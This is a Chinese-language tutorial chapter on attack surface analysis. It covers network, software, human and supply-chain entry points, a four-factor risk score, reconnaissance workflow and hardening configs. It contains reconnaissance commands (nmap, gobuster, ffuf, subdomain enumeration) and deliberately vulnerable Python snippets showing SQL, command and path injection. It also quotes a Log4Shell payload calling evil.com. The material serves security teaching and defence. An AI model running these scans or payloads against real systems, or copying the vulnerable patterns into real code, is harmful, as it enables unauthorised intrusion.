


## 三、攻击面分析（Attack Surface Analysis）

攻击面分析是安全评估的起点——在你动手渗透之前，必须先搞清楚"敌人"到底有多少扇门、多少扇窗。盲目测试如同蒙眼拆弹，而攻击面分析就是给你一双透视眼，看清目标系统的全貌。

### 3.1 什么是攻击面

**攻击面（Attack Surface）** 是指系统中所有可被攻击者访问和利用的入口点、出口点、数据流和信任边界的总和。这个概念最早由微软在 2004 年的 Security Development Lifecycle（SDL）中系统化提出，其核心思想可以用一句话概括：

> 攻击面越小，系统越安全。

但这句简化容易产生误解。攻击面不只是"数量"问题，更是一个"结构"问题。一个系统可能只有 3 个入口点，但每一个都是高危的——这比一个有 100 个低危入口点的系统更危险。

#### 3.1.1 攻击面的三要素

理解攻击面需要把握三个核心要素：

| 要素 | 含义 | 示例 |
|------|------|------|
| **攻击向量（Attack Vector）** | 攻击者到达系统的路径 | 网络请求、USB 接口、蓝牙连接 |
| **攻击目标（Attack Target）** | 系统中接收和处理输入的组件 | Web 服务器、数据库、API 端点 |
| **信任边界（Trust Boundary）** | 权限级别或安全域发生变化的点 | 用户态→内核态、内网→DMZ |

三者的关系可以用一个类比理解：攻击向量是"路"，攻击目标是"门"，信任边界是"门槛的高度"。攻击者要做的就是找一条路、到一扇门前、跨过那道门槛。

#### 3.1.2 攻击面 vs 攻击面分析

- **攻击面**是一个客观存在——系统上线的那一刻，它的攻击面就确定了
- **攻击面分析**是一个主动过程——通过方法论和工具，系统性地发现和评估这些入口点

很多初学者混淆这两个概念，认为"做攻击面分析"就是"缩小攻击面"。实际上，分析是前提，缩小是后续动作。你得先知道门在哪，才能决定是锁门还是拆门。

### 3.2 攻击面的分类体系

对攻击面进行分类是系统化分析的基础。以下从技术维度进行详细拆解。

#### 3.2.1 网络攻击面（Network Attack Surface）

网络攻击面是最容易被发现、也最常被利用的类型。它是攻击者从外部接触系统的第一道战场。

**端口与服务暴露**

每个开放端口背后都运行着一个服务，每个服务都可能成为突破口。经典的攻击面枚举从端口扫描开始：

```bash
# TCP SYN 扫描，检测 1-65535 端口
nmap -sS -p- -T4 --open target.example.com

# UDP 扫描（常被忽视，但 DNS/DHCP/SNMP 都在 UDP 上）
nmap -sU --top-ports 100 target.example.com

# 服务版本探测 + 脚本扫描
nmap -sV -sC --script=banner target.example.com
```

关键点：不要只扫 TCP。很多高危服务（DNS zone transfer、SNMP community strings、NTP monlist）运行在 UDP 上，被忽视的 UDP 端口往往是突破口。

**Web 应用接口**

Web 应用的攻击面极为庞大，因为 HTTP/HTTPS 是最普遍的网络协议：

- **URL 路径与路由**：`/api/v1/users`、`/admin`、`/debug`
- **HTTP 方法**：GET、POST、PUT、DELETE、PATCH、OPTIONS、TRACE
- **请求头**：`Host`、`Referer`、`X-Forwarded-For`、`Cookie`、`Authorization`
- **请求参数**：查询字符串、表单数据、JSON body、XML body
- **文件上传点**：头像上传、文档导入、CSV 导入
- **WebSocket 端点**：实时通信接口，常被传统扫描器忽略

```bash
# 使用 gobuster 枚举目录和文件
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/common.txt \
  -x php,js,json,txt,bak,old -t 50

# 使用 ffuf 枚举 API 端点
ffuf -u https://target.com/api/FUZZ -w api-endpoints.txt \
  -mc 200,301,302,403 -fc 404
```

**远程访问接口**

这些接口专为远程管理设计，天然暴露在攻击面前：

| 协议 | 默认端口 | 常见弱点 |
|------|----------|----------|
| SSH | 22 | 弱密码、旧版本漏洞（如 OpenSSH < 8.5 的用户枚举） |
| RDP | 3389 | BlueKeep（CVE-2019-0708）、NLA 未启用 |
| VNC | 5900 | 无加密、无认证或弱认证 |
| Telnet | 23 | 明文传输、极少有场景还在用但总有遗留 |
| WinRM | 5985/5986 | 未限制来源 IP、凭据复用 |

**网络协议实现漏洞**

协议本身的设计缺陷或实现 bug 造成的攻击面：

- **TLS 降级攻击**：强制使用旧版 TLS/SSL（POODLE、BEAST）
- **DNS 劫持/投毒**：DNS 响应未验证（DNSSEC 未部署时）
- **HTTP 走私**：前后端对 `Transfer-Encoding` 和 `Content-Length` 解析不一致
- **SSRF**：服务端请求伪造，通过内网服务访问外部资源

#### 3.2.2 软件攻击面（Software Attack Surface）

软件层面的攻击面往往比网络层面更隐蔽，但利用效果可能更致命。

**输入验证缺陷**

这是 OWASP Top 10 常客。所有用户可控的输入点都是攻击面：

```python
# 危险示例：直接拼接 SQL
query = f"SELECT * FROM users WHERE id = {user_input}"

# 危险示例：未过滤的命令拼接
os.system(f"ping -c 1 {user_input}")

# 危险示例：未验证的路径拼接
file_path = os.path.join(upload_dir, user_filename)  # 路径穿越：../../etc/passwd
```

输入验证的攻击面远不止 SQL 注入和命令注入。以下容易被忽视的输入点同样危险：

- **HTTP 头部**：`X-Forwarded-Host` 用于缓存投毒，`X-Original-URL` 绕过访问控制
- **Cookie 值**：存储型 XSS、JWT 的 `alg: none` 攻击
- **文件名**：路径穿越、特殊字符导致的日志注入
- **XML 输入**：XXE（XML 外部实体注入）、XSS via SVG
- **序列化数据**：反序列化漏洞（Java 的 `ObjectInputStream`、Python 的 `pickle`）

**文件解析器**

解析器是攻击面中的"隐形杀手"——用户上传的文件经过解析器处理时，解析器自身的漏洞就会暴露：

- **图像解析器**：ImageMagick 的 ImageTragick（CVE-2016-3714）
- **PDF 解析器**：Ghostscript 的 `-dSAFER` 绕过
- **Office 文档**：宏代码、DDE 动态数据交换
- **压缩文件**：Zip Slip 路径穿越（解压时覆盖任意文件）
- **字体文件**：TrueType 字体解析的内存破坏漏洞

**第三方依赖**

现代软件中，第三方库可能占代码总量的 70-90%。每一行不是你写的代码都是潜在攻击面：

```bash
# Node.js 项目依赖审计
npm audit --json | jq '.vulnerabilities | length'

# Python 项目依赖审计
pip-audit -r requirements.txt

# Java 项目依赖检查（OWASP Dependency-Check）
dependency-check --project "MyApp" --scan ./lib/

# Go 项目依赖漏洞扫描
govulncheck ./...
```

典型灾难案例：Log4Shell（CVE-2021-44228）——一个日志库中的 JNDI 注入漏洞，影响了全球数百万个 Java 应用。攻击者只需发送一个包含 `${jndi:ldap://evil.com/a}` 的字符串，就能在目标服务器上执行任意代码。

**配置与环境变量**

配置错误是最常见的安全问题之一：

- **默认凭据**：数据库默认密码（root/root、admin/admin）
- **调试模式开启**：Django 的 `DEBUG=True`、Spring Boot Actuator 暴露
- **敏感信息硬编码**：API Key 写在代码里、密钥提交到 Git
- **过宽的权限配置**：AWS S3 bucket 设为 public、数据库允许远程连接
- **未使用的功能**：安装时勾选了所有组件，每个组件都是额外攻击面

```bash
# 检查 Git 历史中的敏感信息泄露
trufflehog git https://github.com/org/repo.git

# 扫描代码中的硬编码密钥
grep -rn -E '(api_key|secret|password|token)\s*=\s*["\x27]' ./src/
```

#### 3.2.3 人为攻击面（Human Attack Surface）

技术防护再强，人永远是最薄弱的环节。人为攻击面是最难量化但最具破坏力的类型。

**社会工程学向量**

攻击者通过操纵人的心理弱点来突破防线：

| 攻击方式 | 利用的心理原理 | 典型场景 |
|----------|---------------|----------|
| 钓鱼邮件 | 权威服从、紧迫感 | 伪装 IT 部门要求重置密码 |
| 水坑攻击 | 信任习惯 | 感染员工常访问的行业网站 |
| 尾随进入 | 社交礼貌、从众心理 | 跟在授权人员身后进入机房 |
| USB 投放 | 好奇心 | 在停车场散落含恶意程序的 U 盘 |
| 预文本欺骗 | 信任权威身份 | 假冒供应商致电要求远程协助 |


**内部人员威胁**

内部人员（员工、承包商、前员工）因为拥有合法访问权限，其威胁更难防范：

- **恶意内部人员**：有意窃取数据、破坏系统（如 Snowden 事件）
- **疏忽内部人员**：无意识的错误操作（误发敏感邮件、配置错误）
- **被入侵的内部人员**：账号被盗用、设备被植入恶意软件

**物理安全攻击面**

物理访问意味着"游戏结束"——如果攻击者能物理接触设备，大多数软件防护都可以绕过：

- 未锁屏的工位（USB Rubber Ducky 一键植入后门）
- 暴露在外的网络接口（接入非法设备）
- 机房门禁管理不严
- 废弃硬盘未销毁（数据恢复攻击）
- 打印机、摄像头等 IoT 设备的物理重置按钮

#### 3.2.4 供应链攻击面（Supply Chain Attack Surface）

供应链攻击是近年来增长最快的攻击类型，因为攻击者只需攻破一个上游节点，就能影响成百上千个下游目标。

**开源组件风险**

```bash
# 使用 Syft 生成软件物料清单（SBOM）
syft packages dir:./project -o spdx-json > sbom.json

# 使用 Grype 基于 SBOM 扫描已知漏洞
grype sbom:sbom.json --fail-on high
```

**构建与部署流程**

- **CI/CD 管道**：Jenkins、GitHub Actions 配置错误可导致代码注入
- **容器镜像**：基础镜像中的漏洞、恶意镜像仓库
- **包管理器**：Typosquatting（拼写相近的恶意包名）、依赖混淆攻击
- **代码签名**：签名密钥泄露导致恶意代码被信任

**典型案例：SolarWinds 事件（2020）**

攻击者入侵了 SolarWinds 的构建系统，在 Orion 平台的更新包中植入后门（SUNBURST）。这个被污染的更新被推送给 18,000 多个组织，包括多个美国政府机构。整个攻击链长达数月未被发现——因为"官方更新"本身就具有信任度。

### 3.3 攻击面评估方法论

识别出攻击面只是第一步，更关键的是对每个攻击面进行评估和优先级排序。

#### 3.3.1 四维评估模型

对每个已识别的攻击面入口点，从以下四个维度打分（1-5 分）：

| 维度 | 评估问题 | 1 分（低） | 5 分（高） |
|------|----------|-----------|-----------|
| **可达性** | 攻击者能多容易接触到？ | 需要物理接触内网设备 | 互联网上直接可访问 |
| **可利用性** | 利用难度有多大？ | 需要多个未公开漏洞链 | 存在公开 PoC 和工具 |
| **影响范围** | 成功利用后危害多大？ | 仅影响单个非关键功能 | 可获取域管/Root 权限 |
| **检测难度** | 攻击是否容易被发现？ | 每次访问都有日志审计 | 完全无日志或日志可删 |

**综合风险分 = 可达性 × 可利用性 × 影响范围 × 检测难度**

风险分超过 100 的入口点应列为高优先级，需要立即加固或监控。

#### 3.3.2 攻击面测绘流程

完整的攻击面测绘应遵循以下流程：



**步骤一：资产发现**

这一步的目标是绘制目标的完整资产图谱：

```bash
# 子域名枚举（被动信息收集）
subfinder -d target.com -silent | httpx -silent -status-code -title

# 主动子域名爆破
amass enum -passive -d target.com -o subdomains.txt

# 证书透明度日志查询
curl -s "https://crt.sh/?q=%.target.com&output=json" | jq '.[].name_value' | sort -u

# IP 段发现
whois -h whois.radb.net '!gAS15169'  # 查询目标 ASN 下所有 IP 段
```

**步骤二：服务与应用层探测**

```bash
# 详细的服务指纹识别
nmap -sV -sC -O --osscan-guess -p- target.com -oA full_scan

# Web 技术栈识别
whatweb https://target.com -v

# 检测 WAF 类型
wafw00f https://target.com
```

**步骤三：数据流与信任边界分析**

这一步需要结合架构文档和实际测试：

1. 绘制系统架构图，标注所有数据流方向
2. 识别每个数据流跨越的信任边界
3. 标记未加密的数据流（HTTP、FTP、Telnet）
4. 检查内部服务之间的认证机制

#### 3.3.3 自动化攻击面管理工具

| 工具 | 类型 | 适用场景 |
|------|------|----------|
| OWASP Amass | 资产发现 | 外部攻击面测绘、子域名枚举 |
| Shodan | 被动扫描 | 互联网暴露面监控 |
| Censys | 被动扫描 | 证书和主机枚举 |
| Nuclei | 漏洞扫描 | 基于模板的大规模漏洞检测 |
| Burp Suite | Web 测试 | Web 应用攻击面深度分析 |
| BloodHound | AD 分析 | Active Directory 攻击路径映射 |
| MITRE ATT&CK Navigator | 威胁建模 | 将攻击面映射到已知 TTP |

### 3.4 攻击面缩减策略

分析是手段，缩减才是目的。以下是经过验证的攻击面缩减策略。

#### 3.4.1 最小暴露原则

```nginx
# Nginx：隐藏版本号和 Server 头
server_tokens off;
more_clear_headers Server;

# 只允许必要的 HTTP 方法
if ($request_method !~ ^(GET|POST|HEAD)$) {
    return 405;
}

# 禁用不必要的路径
location ~ /\.(git|svn|env|htaccess) {
    deny all;
}
```

#### 3.4.2 最小权限原则

```yaml
# Docker 容器：以非 Root 用户运行
services:
  app:
    image: myapp:latest
    user: "1000:1000"
    read_only: true
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
    security_opt:
      - no-new-privileges:true
```

#### 3.4.3 攻击面持续监控

攻击面不是静态的——每次代码部署、配置变更、新员工入职都会改变攻击面。持续监控方案：

1. **资产变化告警**：当新域名、新端口、新服务出现时触发告警
2. **依赖漏洞监控**：CI/CD 管道集成依赖扫描，阻断含高危漏洞的构建
3. **配置漂移检测**：Infrastructure as Code + 自动化合规检查
4. **外部攻击面监控（EASM）**：定期从外部视角扫描，发现影子 IT 和未管理资产

### 3.5 实战：攻击面分析报告模板

一份完整的攻击面分析报告应包含以下结构：

```markdown
# 攻击面分析报告

## 1. 执行摘要
- 分析范围与目标
- 关键发现总结（Top 5 风险）
- 整体风险评级

## 2. 资产清单
| 资产名称 | 类型 | IP/域名 | 开放端口 | 关键服务 |
|----------|------|---------|----------|----------|

## 3. 攻击面枚举
### 3.1 网络攻击面
- 发现的入口点列表
- 每个入口点的可达性评估

### 3.2 应用攻击面
- Web 接口清单
- API 端点清单
- 文件上传点

### 3.3 人为攻击面
- 社会工程学评估
- 物理安全评估

### 3.4 供应链攻击面
- 第三方依赖风险
- 构建流程风险

## 4. 风险评估矩阵
| 入口点 | 可达性 | 可利用性 | 影响 | 检测难度 | 综合风险 |
|--------|--------|----------|------|----------|----------|

## 5. 加固建议
- 按优先级排序的建议列表
- 每条建议的预期风险降低效果

## 6. 持续监控方案
- 监控频率
- 告警规则
- 响应流程
```

### 3.6 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "扫描器扫完就等于做了攻击面分析" | 自动化工具只能发现已知模式，业务逻辑漏洞、权限设计缺陷需要人工分析 |
| "内网是安全的，不需要分析内网攻击面" | 内网横向移动是最常见的攻击路径，零信任架构要求对每个入口都验证 |
| "攻击面分析是一次性工作" | 攻击面随系统演进持续变化，必须建立持续监控机制 |
| "只关注技术层面的攻击面" | 人和社会工程学向量往往是最容易被利用的，必须纳入分析范围 |
| "攻击面越少越好，所以直接关闭所有端口" | 攻击面缩减需要平衡业务需求，过度缩减会导致业务不可用 |

### 3.7 进阶：攻击面与 MITRE ATT&CK 的映射

将攻击面映射到 MITRE ATT&CK 框架，可以帮助你理解每个入口点对应的具体攻击技术：



这种映射的价值在于：它让攻击面分析不再是孤立的资产盘点，而是与威胁情报、防御策略直接关联的可操作输出。每个入口点都能回答"攻击者会怎么用它"以及"我们应该怎么防"。

### 3.8 小结

攻击面分析是安全思维的基石。它不是一个技术动作，而是一种思维方式——永远在问"这里还能被怎么利用"。

掌握攻击面分析需要做到三点：

1. **全面**：不遗漏任何类型的攻击面（网络、软件、人、供应链）
2. **量化**：用可达性、可利用性、影响范围、检测难度四维模型打分
3. **持续**：建立持续监控机制，因为攻击面每天都在变化

记住：安全不是产品，是过程。攻击面分析就是这个过程的第一步，也是最重要的一步。
